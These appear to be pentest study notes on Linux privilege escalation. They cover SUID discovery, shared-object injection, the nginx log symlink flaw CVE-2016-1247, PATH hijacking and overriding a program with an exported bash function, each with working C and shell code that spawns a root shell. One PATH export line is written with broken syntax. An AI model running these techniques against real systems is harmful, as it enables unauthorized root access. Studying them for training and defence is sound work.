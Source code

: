 ```bash
find / -perm -u=s -type f 2>/dev/null
```
Find files with SUID sticky bit set

https://gtfobins.github.io/ to find SUID options

## Shared Object Injection

Use SUID to find somewhere we can inject, we found that /usr/local/bin/suid-so in the below code has the sticky bit.

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```
Views what is running behind the scenes and greps when other libraries/configs/scripts are called

To exploit we find something in the list that we can write into or overwrite completely

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
Copies bash to tmp and adds sticky bit (SUID) on it

```bash
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/libcalc.c
```
Compiles the above code to match the missing file from our strace output

## Binary Symlinks

Specific to nginx, useful when completing RCE as www-data and getting a reverse shell as www-data

https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html

```bash
dpkg -l | grep nginx
```
Looking for version 1.6.2 or below

Use `find` command previously to find SUID bit, will only work if SUID bit is set on sudo

```bash
ls -la /var/log/nginx
```
Validate . (current directory) has rwx permissions for www-data

Create a symlink to tie log file to an executable that escalates to root privilege. Must have a startup or restart of nginx to actually apply

```bash
./nginxed-root.sh /path/to/log/file
```
Will run the exploit, still need to restart nginx after this completes

## Environmental Variables

```bash
env
```
View all environmental variables

Run `find` command from above to find target

```bash
strings /path/to/target
```
To find specific strings that are used in the target

In example, found `service apache2 start`

This `service` is called using the `$PATH` environmental variable, which supplies an alias for service that points to the full path of the service executable

This escalation essentially updates that `$PATH` variable to point service at a different executable of our own design, giving us root access

```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
```
Sets gid, uid to root and runs `/bin/bash`

```bash
gcc /tmp/service.c -o /tmp/service
```
Compiles service.c into service

```bash
export $PATH = /tmp:$PATH
```
Now that path is set to /tmp first, it will look for the service executable in /tmp before anything else, which executes our malicious shell.

### If strings returns a direct path

```bash
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
```
Creates bash function to copy `/bin/bash` into /tmp and add the SUID sticky bit, then run with -p to keep that UID when run

```bash
export -f /usr/sbin/service
```
The -f flag sets the /usr/sbin/service to run as the function we just created rather than the executable file